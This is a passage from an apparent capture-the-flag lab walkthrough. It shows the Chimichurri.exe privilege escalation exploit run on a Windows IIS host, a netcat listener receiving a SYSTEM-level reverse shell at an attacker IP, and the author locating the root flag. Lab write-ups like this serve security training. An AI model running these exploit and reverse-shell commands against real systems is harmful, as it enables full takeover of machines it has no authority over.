 Start a listener and execute the exploit

```
c:\inetpub\wwwroot>Chimichurri.exe 10.10.14.16 4444
Chimichurri.exe 10.10.14.16 4444
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
c:\inetpub\wwwroot>


$ nc -nvlp 4444                                          
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.5] 49159
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\inetpub\wwwroot>whoami
whoami
nt authority\system

c:\inetpub\wwwroot>
```

And finally locate the flag
```
c:\inetpub\wwwroot>dir c:\users\Administrator\Desktop
dir c:\users\Administrator\Desktop
 Volume in drive C has no label.
 Volume Serial Number is 8620-71F1

 Directory of c:\users\Administrator\Desktop

14/01/2021  11:42 ��    <DIR>          .
14/01/2021  11:42 ��    <DIR>          ..
18/03/2017  01:17 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  22.285.721.600 bytes free
```

